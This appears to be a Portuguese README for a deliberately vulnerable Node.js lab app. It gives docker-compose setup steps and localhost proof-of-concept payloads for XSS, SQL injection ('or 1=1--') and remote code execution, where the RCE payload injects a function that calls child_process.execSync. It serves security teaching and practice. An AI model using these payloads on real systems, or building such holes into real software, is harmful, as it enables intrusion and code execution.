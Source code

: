 # Vulnerable Node Application
- [Vulnerable Node Application](#vulnerable-node-application)
  - [Execução](#execução)
  - [Vulnerabilidades](#vulnerabilidades)
    - [XSS](#xss)
    - [SQL Injection](#sql-injection)
    - [RCE](#rce)

## Execução

```
$ unzip VulnNode-Nome.zip
$ cd VulnNode-Nome
$ docker-compose up
```

![Docker Compose em execução](https://res.cloudinary.com/dtr6hzxnx/image/upload/v1681241692/Via/2023-04-11_16.24.37_kmoglj.gif)

```
http://localhost:3000
``````
![Vulnerable Node Application](images/VulnerableNodeApplication.png)

## Vulnerabilidades 
### XSS
![Cross-Site Script](images/xss.png)
```
/?userInput=<script>alert(1)</script>
```
### SQL Injection

http://localhost:3000/users?username=kid&access-token=CHAVE_MEGASECRETA_QsriGQQbNsLykkfdci9TVutzbT9pfGZpSRMQ6FuhQNeYnZw6 

![SQL Injection](images\sqli.png)
```
/users?username='+or+1=1--&access-token=' 
```
### RCE
![Remote Code Execution](images/rce.png)
```
/users/has-access?userId=1&resourceId=42&userAccessCheck=function(userId,%20resourceId)%20{%20return%20require('child_process').execSync('ping+-c+4+localhost').toString();%20}
```